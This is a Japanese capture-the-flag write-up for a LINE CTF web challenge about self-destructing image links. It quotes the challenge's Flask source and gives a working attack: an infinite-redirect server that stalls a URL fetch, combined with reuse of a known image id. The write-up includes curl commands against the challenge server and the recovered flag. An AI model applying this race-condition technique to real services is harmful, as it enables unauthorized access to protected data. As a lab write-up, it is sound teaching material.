



# This message will self-destruct in...:Web:145pts
This service can generate message link that will self-destruct. BTW, Which SPY movie do you like? 😎  
[http://35.200.21.52/](http://35.200.21.52/)  

[This-message-will-self-destruct-in_6b8f93aaff1002ecda2f8ecf2df7a405.zip](This-message-will-self-destruct-in_6b8f93aaff1002ecda2f8ecf2df7a405.zip)  

# Solution
URLとソースが配布される。  
アクセスすると、スパイが画像を秘密裏に渡すサービスのようだ。  
画像をアップロードし、パスワードを設定できる。  
  
アップロードすると一時的なURLが払い出される。  
  
一時的なURLにアクセスすると、モザイクがかかった画像が表示され10sカウントされる。  
  
カウントが尽きるまでに正しいパスワードを入力すればアップロードした元の画像が表示され、入力できない場合には「BOOOOOOM 💣」とアラートされ画像自体がリンクごとなくなる。  
サイトの下部に表示されている`Get trial link`からは毎回異なるリンクを貰え、どうやらフラグが画像に隠されているようだ。  
  
ただし、パスワードがわからないので突破してフラグが書かれているであろう画像(フラグ画像？と呼ぶ)を見る問題らしい。  
ソースの主要な処理を見ると以下の通りであった。  
順不同で分割して説明する。  

`/<id>`のGETでモザイク画像を、POSTでパスワードが一致すれば元の画像を表示している。  
ただし、ここは突破できない。  
```python
@app.get('/<id>')
def hidden_image(id:str):
    result = db.get_image(id)
    if result:
        with open(os.path.join(FILE_SAVE_PATH, id+'-mosaic'), 'rb') as f:
            data = f.read()

        image_data_url = util.image_data2url(result[1], data)
        Timer(DESTRUCTION_SECONDS, db.delete_image, args=(id,)).start()
        return render_template('hidden_image.html', data_url=image_data_url, destruction_seconds=DESTRUCTION_SECONDS)
    else:
        logger.info(f'image not found: {id}')
        return render_template('imposter.html')


@app.post('/<id>')
def reveal_image(id:str):
    result = db.get_image(id)
    if result:
        password = request.form['password']
        if password == result[2]:
            with open(os.path.join(FILE_SAVE_PATH, id), 'rb') as f:
                data = f.read()
            image_data_url = util.image_data2url(result[1], data)
            return render_template('reveal_image.html', data_url=image_data_url)
        else:
            logger.info(f'wrong password: {id}')
            return render_template('imposter.html')
    else:
        logger.info(f'image not found: {id}')
        return render_template('imposter.html')
```
`/trial`では、`__add_image`関数に`secrets.token_urlsafe(32)`で作成した予測不能なパスワード、`uuid4().hex`で作成したid、フラグ画像？、`admin`フラグを渡している。  
```python
@app.get('/trial')
def trial():
    with open(TRIAL_IMAGE, 'rb') as f:
        file = FileStorage(stream=f, content_type='image/png')
        url = __add_image(
            secrets.token_urlsafe(32),
            uuid4().hex,
            file=file,
            admin=True
        )
    return jsonify({'url': url})
```
`/`では画像ファイルまたはURL、パスワード、さらにフロントからは見えないがidを指定できるようで、これらも`__add_image`関数に渡っている。  
```python
@app.post('/')
def add_image():
    form = AddImageForm()

    print(form)

    if form.validate_on_submit():
        file = form.image.data
        password = form.password.data
        id_ = form.id.data or uuid4().hex
        image_url = form.image_url.data

        url = __add_image(password, id_, file=file, image_url=image_url)

        return render_template('image_added.html', url=url, form=form)
    else:
        logger.info(f'validation error: {form.errors}')
        return render_template('index.html', form=form)
```
肝心な`__add_image`関数は初めに別スレッドで`convert_and_save`を呼び出す。  
これは、画像がURLであればダウンロードし、モザイク処理やロールバック処理を行っている。  
さらに`__add_image`関数では、`admin`フラグがない場合に5s待ってDBへidを追加している。  
これは、`convert_and_save`関数の終了を待っているようにも見受けられる。  
```python
def __add_image(password, id_, file=None, image_url=None, admin=False):
    t = Thread(target=convert_and_save, args=(id_, file, image_url))
    t.start()

    # no need, but time to waiting heavy response makes me excited!!
    if not admin:
        time.sleep(5)

    if file:
        mimetype = file.content_type
    elif image_url.endswith('.jpg'):
        mimetype = 'image/jpg'
    else:
        mimetype = 'image/png'

    db.add_image(id_, mimetype, password)

    return urljoin(URLBASE, id_)


def convert_and_save(id, file=None, url=None):
    try:
        if url:
            res = requests.get(url, timeout=3)
            image_bytes = res.content
        elif file:
            image_bytes = io.BytesIO()
            file.save(image_bytes)
            image_bytes = image_bytes.getvalue()

        if len(image_bytes) > app.config['MAX_CONTENT_LENGTH']:
            raise Exception('image too large')

        obfs_image_bytes = util.mosaic(image_bytes)

        with open(os.path.join(FILE_SAVE_PATH, id), 'wb') as f:
            f.write(image_bytes)
        with open(os.path.join(FILE_SAVE_PATH, id+'-mosaic'), 'wb') as f:
            f.write(obfs_image_bytes)
    except Exception as e:
        logger.error(f'convert_and_save: rollback: {e}')
        db.delete_image(id)
        try:
            os.remove(os.path.join(FILE_SAVE_PATH, id))
        except:
            pass
        try:
            os.remove(os.path.join(FILE_SAVE_PATH+'-mosaic', id))
        except:
            pass
```

この問題を解く方針としてフラグ画像？のパスワードをリークまたは改竄しなければならない。  
おそらくタイミング系のロジックバグが潜んでいそうだ。  
ここで、フラグ画像？のidがサイト下部の`Get trial link`のURLからわかるため、自分のアップロードした画像のidと一致させてみることを思いつく。  
すると、初めにフラグ画像？のidがDBに追加され、自分の画像のid(およびパスワード)の追加が失敗する。  
これはDBのidがユニークであるからだ。  
もし自分の画像のidが先に追加され、フラグ画像？のidが後に追加されれば、フラグ画像を自分の設定したパスワードで閲覧できるかもしれない。  
ただし、`Get trial link`ではフラグのidが分かった時点で`__add_image`されている。  
困っていると、フラグ画像？のidがDBから削除されたあとに、自分の画像のidを追加すればよいことに気づく。  
DBでフラグ画像？のidが削除される箇所は以下の二つだ。  
```python
def convert_and_save(id, file=None, url=None):
    try:
~~~
    except Exception as e:
        logger.error(f'convert_and_save: rollback: {e}')
        db.delete_image(id)
        try:
            os.remove(os.path.join(FILE_SAVE_PATH, id))
        except:
            pass
        try:
            os.remove(os.path.join(FILE_SAVE_PATH+'-mosaic', id))
        except:
            pass
```
`convert_and_save`関数でエラーが発生すれば、ロールバックとしてDBからフラグ画像？のidが削除される。  
ただし、フラグ画像？のファイル自体も削除されるため意味がない。  
```python
@app.get('/<id>')
def hidden_image(id:str):
    result = db.get_image(id)
    if result:
        with open(os.path.join(FILE_SAVE_PATH, id+'-mosaic'), 'rb') as f:
            data = f.read()

        image_data_url = util.image_data2url(result[1], data)
        Timer(DESTRUCTION_SECONDS, db.delete_image, args=(id,)).start()
        return render_template('hidden_image.html', data_url=image_data_url, destruction_seconds=DESTRUCTION_SECONDS)
    else:
        logger.info(f'image not found: {id}')
        return render_template('imposter.html')
```
画像取得リクエストを行い、10s経過した場合もDBからフラグ画像？のidが削除される。  
こちらはファイルの実体が残るので、自分の画像のidと一致させ読みだせそうだ。  
ただここでidを一致させて読みだそうとすると、問題が発生する。  
以下のように`__add_image`関数で、DBに自分の画像のidが追加されるまでに5sかかる。  
```python
def __add_image(password, id_, file=None, image_url=None, admin=False):
    t = Thread(target=convert_and_save, args=(id_, file, image_url))
    t.start()

    # no need, but time to waiting heavy response makes me excited!!
    if not admin:
        time.sleep(5)
~~~
    db.add_image(id_, mimetype, password)
~~~
```
一方別スレッドの`convert_and_save`関数ではURLでは3s、ファイルでは即時で残っていたフラグ画像？ファイルの実体が自分の画像で上書きされる。  
もちろんエラーが出ると残っていたフラグ画像？ファイルの実体が消える。  
```python
def convert_and_save(id, file=None, url=None):
    try:
        if url:
            res = requests.get(url, timeout=3)
            image_bytes = res.content
        elif file:
            image_bytes = io.BytesIO()
            file.save(image_bytes)
            image_bytes = image_bytes.getvalue()

        if len(image_bytes) > app.config['MAX_CONTENT_LENGTH']:
            raise Exception('image too large')

        obfs_image_bytes = util.mosaic(image_bytes)

        with open(os.path.join(FILE_SAVE_PATH, id), 'wb') as f:
            f.write(image_bytes)
        with open(os.path.join(FILE_SAVE_PATH, id+'-mosaic'), 'wb') as f:
            f.write(obfs_image_bytes)
    except Exception as e:
~~~
```
何とかして`convert_and_save`関数の処理時間を引き延ばし、`__add_image`関数の`db.add_image(id_, mimetype, password)`の後にファイルが上書きされるようにできないだろうか。  
ここで`requests.get(url, timeout=3)`に注目する。  
画像がURLとして指定されている場合にダウンロードする処理だ。  
一見すると3sで必ずタイムアウトするように思えるが、実はサイトがリダイレクトを繰り返した場合にはリダイレクトするごとに3s待つ。  
つまり、以下のように無限にリダイレクトさせるサーバを立てれば`convert_and_save`関数は終わらず、ファイルの上書きも行われない。  
```python
import time
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/")
def infinite_redirect():
    time.sleep(2)
    return redirect("/", code=302)

if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
これでファイルの上書き前に自分の画像のidをDBに追加できる。  
URLにはバリデーションがあるが`?satoki.png`のようなクエリを末尾につければ解決できる。  
一連の流れを以下の通り行う。  
まずは`/trial`からフラグ画像？のURLを取得し、画像取得リクエストを行って10s待つ。  
これでidが分かるフラグ画像？の実体はそのままに、DBからidが削除される。  
```bash
$ curl 'http://35.200.21.52/trial'
{"url":"http://35.200.21.52/62762aea975942938272bed15863e1e9"}
$ curl -s 'http://35.200.21.52/62762aea975942938272bed15863e1e9' | grep 'Hello IMPOSTER 😜'
$ curl -s 'http://35.200.21.52/62762aea975942938272bed15863e1e9' | grep 'Hello IMPOSTER 😜'
    <p>Hello IMPOSTER 😜</p>
```
次にリダイレクトさせるサーバを起動し、以下のようなリクエストを問題サーバへPOSTする。  
ここで、image_urlにリダイレクトさせるサーバ、idには先ほどのフラグ画像？、パスワードを設定する。  
```bash
$ curl -X POST http://35.200.21.52/ -F 'image_url=http://s4t.pw/?satoki.png' -F 'id=62762aea975942938272bed15863e1e9' -F 'password=satoki'
<!DOCTYPE html>
~~~
```
`convert_and_save`関数は終わらないためリダイレクトさせるサーバにはアクセスが断続的に行われる。  
```bash
$ python3 app.py
~~~
35.200.21.52 - - [24/Mar/2024 05:59:01] "GET /?satoki.png HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:03] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:06] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:08] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:10] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:12] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:14] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:16] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:19] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:21] "GET / HTTP/1.1" 302 -
~~~
```
そのまま`http://35.200.21.52/62762aea975942938272bed15863e1e9`へ再度アクセスし、設定したパスワード`satoki`を入力する。  
  
画像が読み取れ、flagが書かれていた。  

## LINECTF{db3b30d05eb5e625a50a3925a35810f2}